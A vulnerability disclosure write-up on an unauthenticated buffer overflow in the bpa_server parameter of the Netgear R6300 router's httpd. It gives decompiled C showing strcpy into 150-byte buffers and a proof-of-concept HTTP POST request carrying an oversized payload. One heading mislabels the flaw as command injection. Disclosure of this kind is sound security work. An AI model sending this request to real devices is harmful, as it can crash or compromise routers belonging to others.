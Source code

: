 # Buffer Overflow Vulnerability in `bpa_server`

1. Vulnerability Overview

| **Field**            | **Details**                                                  |
| -------------------- | ------------------------------------------------------------ |
| Affected Product     | Netgear R6300 Router                                         |
| Firmware Version     | V1.0.2.80_1.0.59                                             |
| Vulnerability Type   | **Buffer Overflow**                                          |
| Vulnerable Component | `httpd` (`basicCgiCdlBpa` → `acosNvramConfig_set` → `blkGetDetWanResultCgi` / `cdlCgiDetWan` / `wizCgiDetWan`) |
| Prerequisites        | No authentication required; attacker must supply crafted input via web interface parameter `bpa_server` |

2. Exploitation Path

```c
int __fastcall basicCgiCdlBpa(char *a1, int a2)
{
  ...
  char v7[256]; // [sp+18h] [-100h] BYREF
  websGetVar(a1, "bpa_idletime", v7);
  if ( atoi(v7) < 100 )
  {
    acosNvramConfig_set("bpa_idletime", v7);
    acosNvramConfig_set("wan_proto", &off_4ED680);
    websGetVar(a1, "bpa_server", v7);
    acosNvramConfig_set("bpa_server", v7);
    ...
}
  
int __fastcall blkGetDetWanResultCgi(int a1, int a2)
{
  ...
  char v19[150]; // [sp+30h] [-298h] BYREF
  ...
  else
  {
    if ( !stristr(v20, &off_4D8E5C) )
      goto LABEL_15;
    dword_5B4AD0 |= 8u;
    v9 = (const char *)acosNvramConfig_get("bpa_server");
    strcpy(v19, v9);
    ...
}
  
int __fastcall cdlCgiDetWan(int a1, int a2)
{
  ...
  char v26[150]; // [sp+B0h] [-298h] BYREF
  ...
  {
    if ( !stristr(v27, "dhcp") )
    {
      if ( stristr(v27, "pptp") )
      {
        dword_5B8130 |= 4u;
        acosNvramConfig_set("pptp_serv_ip", "10.0.0.138");
      }
      else if ( stristr(v27, &off_4D8E5C) )
      {
        dword_5B8130 |= 8u;
        v12 = (const char *)acosNvramConfig_get("bpa_server");
        strcpy(v26, v12);
        ...
}
      
int __fastcall wizCgiDetWan(int a1, int a2)
{
  ...
  char v17[150]; // [sp+30h] [-298h] BYREF
  ...
  if ( v5 )
  {
    ...
    else
    {
      if ( !stristr(v18, "dhcp") )
      {
        if ( stristr(v18, "pptp") )
        {
          dword_5B3030 |= 4u;
          acosNvramConfig_set("pptp_serv_ip", "10.0.0.138");
        }
        else if ( stristr(v18, &off_4D8E5C) )
        {
          dword_5B3030 |= 8u;
          v10 = (const char *)acosNvramConfig_get("bpa_server");
          strcpy(v17, v10);
          ...
}
```

3. **Vulnerable Binaries:** The vulnerability resides in the `httpd` binary.

4. 0-Day Command Injection Exploitation Path: 
   - In the `basicCgiCdlBpa` function at line 10, the call `websGetVar(a1, "bpa_server", v7)` receives input. Although a 255-byte length restriction is enforced, no further validation is applied. The input is stored via `acosNvramConfig_set("bpa_server", v7)` at line 11. Subsequently, the `blkGetDetWanResultCgi` function retrieves the value at line 25 using `v9 = (const char *)acosNvramConfig_get("bpa_server")`, and copies it into the destination buffer `v19` via `strcpy(v19, v9)` at line 26. Since `v19` is only 150 bytes in size, this results in a buffer overflow vulnerability.
   - In the same data flow, after storage in `acosNvramConfig_set("bpa_server", v7)`, the `cdlCgiDetWan` function retrieves the value at line 46 via `v12 = (const char *)acosNvramConfig_get("bpa_server")`, and copies it into the destination buffer `v26` with `strcpy(v26, v12)` at line 47. The buffer `v26` is limited to 150 bytes, leading to a buffer overflow vulnerability.
   - Similarly, after the same storage operation, the `wizCgiDetWan` function retrieves the value at line 71 via `v10 = (const char *)acosNvramConfig_get("bpa_server")`, and copies it into the destination buffer `v17` using `strcpy(v17, v10)` at line 72. The buffer `v17` is also 150 bytes in size, resulting in a buffer overflow vulnerability.

5. Proof of Concept (PoC) for Reproducing the Vulnerability

```http
POST /cgi-bin/basicCgiCdlBpa HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 300
Connection: close

bpa_server=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```